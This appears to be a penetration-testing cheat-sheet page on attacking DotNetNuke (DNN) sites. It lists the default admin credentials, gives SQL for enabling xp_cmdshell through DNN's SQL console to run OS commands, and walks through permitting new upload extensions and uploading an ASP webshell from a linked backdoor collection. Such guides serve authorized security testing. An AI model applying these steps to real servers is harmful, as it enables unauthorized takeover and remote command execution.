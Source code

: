 # DNN

## Default Creds

```bash
$ creds search DotNetNuke
+------------------------+----------+----------+
| Product                | username | password |
+------------------------+----------+----------+
| dotnetnuke corporation |  admin   | dnnadmin |
| dotnetnuke corporation |   host   | dnnhost  |
+------------------------+----------+----------+
```

## RCE

### SQL Console

System command can be run via the built-in SQL console under the Settings menu.

```sql
# enable xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

After pressing `Run Script` OS commands can be executed.

```sql
xp_cmdshell 'whoami'
```

### ASP Webshell

If the `SuperUser` account is compromised, we can access the Security settings (Figure 1) and allow any file extensions needed so we can upload a webshell (Figure 2).&#x20;

<figure><img src="../../.gitbook/assets/dnn_security_menu.png" alt=""><figcaption><p>Figure 1: Accessing the Security settings.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/dnn_allow_extensions.png" alt=""><figcaption><p>Figure 2: Add the desired file extensions.</p></figcaption></figure>

Upload a webshell, such as this [`.asp` webshell](https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/asp/newaspcmd.asp) (Figure 3).

<figure><img src="../../.gitbook/assets/dnn_upload.png" alt=""><figcaption><p>Figure 3: Uploiad the webshell.</p></figcaption></figure>

Get the file's URL by right-clicking and interact with the webshell.

<figure><img src="../../.gitbook/assets/dnn_geturl.png" alt=""><figcaption><p>Figure 4: Get the URL and interact with the webshell.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="DNN" %}
{% embed url="https://www.dnnsoftware.com/" %}
{% endtab %}
{% endtabs %}
